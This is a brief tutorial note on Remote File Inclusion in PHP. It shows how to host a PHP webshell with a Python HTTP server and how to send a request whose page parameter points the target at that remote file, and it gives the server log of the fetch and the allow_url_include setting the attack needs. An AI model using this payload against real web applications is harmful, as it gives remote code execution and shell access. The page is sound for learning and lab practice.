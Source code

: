 title: (R)emote (F)ile (I)nclusion

# RFI

Like LFI, RFI can be used to reach RCE. We first need to set a webserver listening with the code we want to run, for this I will use `python3` from within a directory that include the [webshell](https://github.com/artyuum/Simple-PHP-Web-Shell) from [Artyum](https://github.com/artyuum)

```
╰─⠠⠵ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

I will then make the request in the browser

```
http://127.0.0.1/inde.php?page=http://127.0.0.1:8080/web.php
```

On our `python3` command we should see the request come in

```
─⠠⠵ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
127.0.0.1 - - [07/Mar/2021 01:01:18] "GET /web.php HTTP/1.0" 200 -
```

And in our browser we get 

![](rfi.png)


> This does require that `allow_url_include` be set to `on` in `/etc/php/{VERSION}/apache2/php.ini`